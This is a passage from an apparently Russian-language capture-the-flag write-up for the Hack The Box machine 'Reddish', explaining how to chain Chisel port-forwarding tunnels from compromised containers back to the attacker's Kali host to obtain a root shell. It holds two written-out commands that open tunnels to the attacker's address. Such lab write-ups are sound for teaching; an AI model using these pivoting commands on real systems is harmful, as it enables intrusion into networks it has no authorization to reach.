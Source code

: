 ## Получение root-шелла

Следуя принципам динамического программирования, декомпозируем сложную задачу построения такого многосоставного туннеля на две простые подзадачи, а в конце объединим результаты:

1\. Пробрасываем локальный порт `1111` из контейнера `nodered` до порта `8000` на Kali, на котором работает сервер Chisel. Это позволит нам обращаться к `172.19.0.4:1111` как к серверу Chisel на Kali.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 1111:127.0.0.1:8000 &
```

2\. Вторым шагом настроим переадресацию с `www` на Kali. Для этого подключимся к `172.19.0.4:1111` (то же самое, как если бы мы могли подключиться к Kali напрямую) и пробросим локальный порт `2222` до порта `3333` на Kali.

```
www-data@www:/tmp$ ./chisel client 172.19.0.4:1111 2222:127.0.0.1:3333 &
```

Теперь все, что попадет в порт `2222` на `www`, будет перенаправлено по цепочке туннелей через контейнер `nodered` в порт `3333` на машину атакующего.

![network-map-7.png](/assets/images/htb/machines/reddish/network-map-7.png)
{:.center-image}

Сетевая карта. Часть 7: Цепочка туннелей "www <=> nodered <=> Kali"
{:.quote}
